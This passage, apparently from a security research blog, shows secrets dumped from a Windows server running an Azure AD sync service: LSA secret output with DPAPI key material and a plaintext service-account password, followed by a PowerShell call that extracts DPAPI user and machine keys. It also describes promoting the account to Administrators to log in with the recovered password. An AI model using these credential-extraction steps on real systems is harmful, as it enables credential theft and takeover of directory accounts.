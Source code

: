 ```
MD4Txt      : aabbccdd..
SHA1Txt     : aabbccdd..

Name        : DPAPI_SYSTEM
Password    : {1, 0, 0, 0...}
PasswordHex : 0100000001082277ac85a532018930b782c30b7f2f91f7677e258665f0a016a7c215ceaf29ee1ae17b9f017b9
PasswordTxt : 挌榵
MD4         : {1, 2, 3, 4...}
SHA1        : {1, 2, 3, 4...}
MD4Txt      : aabbccdd..
SHA1Txt     : aabbccdd..

Name        : NL$KM
Password    : {1, 2, 3, 4...}
PasswordHex : 01020304..
PasswordTxt : ⬡ꎛ
MD4         : {1, 2, 3, 4...}
SHA1        : {1, 2, 3, 4...}
MD4Txt      : aabbccdd..
SHA1Txt     : aabbccdd..

Name        : _SC_ADSync
Password    : {1, 2, 3, 4...}
PasswordHex : 01020304..
PasswordTxt : a5bTiGcvC8fr=E;MQ331IOt/&RP,!m:qjiRXaS;xr4V#6t74;&7mXWoOoz"57K/kKTz#xdBBqb.GDKly
MD4         : {1, 2, 3, 4...}
SHA1        : {1, 2, 3, 4...}
MD4Txt      : aabbccdd..
SHA1Txt     : aabbccdd..
```

The DPAPI_SYSTEM user has a binary password containing the keys. To ease fetching the DPAPI keys, I also implemented the following function:

{{< highlight powershell >}}
# Get DPAPI keys
Get-AADIntDPAPIKeys
{{< /highlight>}}
```
UserKey               UserKeyHex                               MachineKey            MachineKeyHex                           
-------               ----------                               ----------            -------------                           
{16, 130, 39, 122...} 1082277ac85a532018930b782c30b7f2f91f7677 {226, 88, 102, 95...} e258665f0a016a7c215ceaf29ee1ae17b9f017b9
```

At this point, I noticed that _SC_ADSync had a plain-text password. The user had no rights to login normally, so I temporarely moved it to Administrators group.
After that, I was able to login as AAD_012345679ab user with _SC_ADSync password! Thus, as the user was not a virtual account as described in Dirk-jan's post, I implemented
a function to decrypt user's master key with user name, SID, and password.
